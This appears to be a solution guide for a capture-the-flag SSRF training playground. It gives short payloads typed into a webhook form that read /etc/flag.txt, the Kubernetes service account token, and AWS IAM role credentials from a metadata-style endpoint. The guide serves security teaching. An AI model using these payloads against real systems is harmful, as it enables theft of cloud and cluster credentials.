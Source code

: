 # How to get the flags

* [Flag1](https://github.com/BenjiTrapp/ssrf-playground/edit/main/exploit/SOLUTION.md#flag-1---how-to-access-the-etcflagtxt)
* [Flag2](https://github.com/BenjiTrapp/ssrf-playground/edit/main/exploit/SOLUTION.md#flag-2---raid-the-kubernetes-serviceaccounttoken)
* [Flag3](https://github.com/BenjiTrapp/ssrf-playground/edit/main/exploit/SOLUTION.md#flag-3---hijack-the-aws-account-by-absuing-the-ec2-metadata-service)


## Flag 1 - How to access the /etc/flag.txt
Simply run `file:///etc/flag.txt` in the WebHook Form:
<p align="center">
<img width="600" src="/exploit/flag1.jpg">
<br>Agile is our Mindset - DevOps is our Culture
</p>
<br>

## Flag 2 - Raid the kubernetes ServiceAccountToken
Run `file:///var/run/secrets/kubernetes.io/serviceaccount/token`in the WebHook Form:
<p align="center">
<img width="600" src="/exploit/flag2.jpg">
<br>Agile is our Mindset - DevOps is our Culture
</p>
<br>

## Flag 3 - Hijack the AWS Account by absuing the EC2 Metadata Service
Run `localhost:1338/latest/meta-data/iam/security-credentials/fulladministrator-role`
<p align="center">
<img width="600" src="/exploit/flag3.jpg">
<br>Agile is our Mindset - DevOps is our Culture
</p>
<br>
